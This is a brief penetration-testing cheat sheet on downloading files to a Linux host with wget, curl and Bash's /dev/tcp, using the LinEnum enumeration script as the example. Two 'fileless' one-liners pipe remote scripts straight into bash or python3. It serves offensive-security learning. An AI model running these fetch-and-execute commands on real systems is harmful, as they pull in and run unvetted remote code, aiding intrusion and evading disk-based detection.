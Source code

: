 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Linux Web Download

## Wget File Download

```shell
clue@machine[/]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## cURL File Download

```shell
clue@machine[/]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Bash File Download (/dev/tcp)

There may also be situations where none of the well-known file transfer tools are available. As long as **Bash version 2.04 or greater** is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for _simple file downloads_.

**Connect to the target webserver:**

```shell
clue@machine[/]$ exec 3<>/dev/tcp/10.10.10.32/80
```

**Make a HTTP GET request:**

```shell
clue@machine[/]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

**Print the response:**

```shell
clue@machine[/]$ cat <&3
```

## Wget Fileless Download

```shell
clue@machine[/]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## cURL Fileless Download

```shell
clue@machine[/]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
